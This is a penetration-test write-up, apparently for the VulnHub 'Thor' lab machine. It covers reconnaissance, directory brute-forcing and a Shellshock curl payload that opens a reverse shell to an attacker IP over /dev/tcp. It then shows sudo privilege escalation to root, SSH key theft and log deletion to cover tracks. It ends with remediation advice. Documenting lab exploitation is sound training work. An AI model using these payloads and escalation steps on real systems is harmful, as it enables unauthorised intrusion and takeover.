

# CEH Penetration Test Report – VulnHub “Thor” Machine

## Executive Summary

During a controlled penetration test of the target host **192.168.0.187**, multiple weaknesses were identified, including a vulnerable `/cgi-bin/` endpoint exploitable via the Shellshock (CVE-2014-6271) vulnerability and misconfigured `sudo` privileges. Successful exploitation resulted in full root access.

---

## 1. Reconnaissance

### Objective

Identify open services and potential attack surfaces.

### Action & Findings

Initial service discovery was performed with Nmap:

```bash
nmap -sV -sC -Pn -p- 192.168.0.187
```

Key results:

* **22/tcp** – OpenSSH 7.9p1 Debian 10
* **80/tcp** – Apache HTTPD 2.4.38 (Debian)

A web application resembling a banking portal was accessible on port 80.


---

## 2. Scanning & Enumeration

### Directory Brute-Force

Multiple directory enumeration tools and wordlists were used.

**Gobuster (common.txt):**

```bash
gobuster dir -u http://thor.vulnhub/ -w ../../SecLists-master/Discovery/Web-Content/common.txt
```

No sensitive endpoints discovered.

**Gobuster (medium list, with extensions):**

```bash
gobuster dir -u http://thor.vulnhub/ \
  -w ../../SecLists-master/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -x txt,html,php
```

Identified pages such as `contact.php`, `home.php`, `news.php`, etc., but none immediately exploitable.

**Dirb:**

```bash
dirb http://thor.vulnhub/ SecLists-master/Discovery/Web-Content/common.txt
```

Found the directory `/cgi-bin/`, a classic vector for remote code execution.

---

## 3. Gaining Access

### Shellshock Exploitation

A follow-up Dirb scan targeting `.sh` files revealed an exposed script:

```bash
dirb http://thor.vulnhub/cgi-bin/ -X .sh
# Found: /cgi-bin/shell.sh
```

Reference: [Shellshock exploit PoC](https://github.com/opsxcq/exploit-CVE-2014-6271)

Payload adapted for reverse shell:

```bash
curl -H "user-agent: () { :; }; echo; echo; \
/bin/bash -c 'sh -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1'" \
http://192.168.0.187/cgi-bin/shell.sh
```

Netcat listener:

```bash
nc -lvnp 4444
```

Result:

```bash
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## 4. Privilege Escalation

### From www-data to thor

Checking `sudo` rights:

```bash
sudo -l
User www-data may run the following commands on HackSudoThor:
    (thor) NOPASSWD: /home/thor/./hammer.sh
```

Executing `hammer.sh` allowed arbitrary command execution as user `thor`:

```bash
sudo -u thor /home/thor/hammer.sh
# Provided '/bin/sh' as input to gain a shell
id
uid=1001(thor) gid=1001(thor) groups=1001(thor)
```

### From thor to root

```bash
sudo -l
User thor may run the following commands on HackSudoThor:
    (root) NOPASSWD: /usr/bin/cat, /usr/sbin/service
```

Using the `service` binary to spawn a root shell:

```bash
sudo service ../../bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

---

## 5. Maintaining Access

* Copied the `id_rsa` key from `/home/thor/` for potential persistent access if required.
* Could create additional privileged accounts or backdoors if the engagement allowed.

---

## 6. Covering Tracks

* No log tampering was performed in this controlled test, but an attacker could delete or alter Apache access logs (`/var/log/apache2/access.log`) and bash history to remove evidence.

---

## 7. Remediation

**Recommended Actions:**

1. **Remove executable shells** from `/cgi-bin/`.
2. Patch against **Shellshock (CVE-2014-6271)** immediately.
3. Restrict or audit `sudo` privileges:

   * Remove unnecessary `NOPASSWD` entries.
   * Enforce least privilege.
4. Implement web application hardening:

   * Disable directory listing.
   * Enforce strong authentication and regular vulnerability scans.

---

## Conclusion

This engagement demonstrates how unpatched vulnerabilities and lax privilege configurations can lead to full system compromise. Prompt patching, hardening, and least-privilege practices are critical to mitigating such risks.
